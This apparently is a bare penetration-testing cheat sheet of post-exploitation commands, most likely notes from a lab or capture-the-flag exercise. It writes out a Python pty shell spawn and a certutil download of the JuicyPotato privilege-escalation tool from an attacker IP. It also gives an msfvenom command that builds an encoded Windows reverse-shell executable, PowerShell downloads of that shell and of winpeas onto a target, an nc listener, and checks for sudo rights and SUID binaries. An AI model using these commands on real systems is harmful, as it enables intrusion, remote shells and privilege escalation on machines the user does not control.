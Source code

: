 For spawning a shell
python -c 'import pty;pty.spawn("/bin/bash")';
python3 -c 'import pty;pty.spawn("/bin/bash")';


download from attacking to target for windows
certutil -urlcache -f http://10.8.102.117:80/JuicyPotato.exe jp.exe

or 


msfvenom --platform Windows -p windows/shell_reverse_tcp -a x86 --encoder /x86/shikata_ga_nai LHOST=10.8.102.117 LPORT=1234 -f exe -o shell.exe

powershell Invoke-WebRequest -Uri http://10.8.102.117:80/shell.exe -Outfile 'C:\Windows\Temp\shell.exe'

then create listener 
nc -lvnp 1234 


Check command that can run as sudo.
sudo -l


powershell Invoke-WebRequest -Uri http://10.8.102.117:80/winpeas.bat -Outfile 'C:\Windows\Temp\winpeas.bat'



find / -perm +6000 2>/dev/null | grep '/bin/'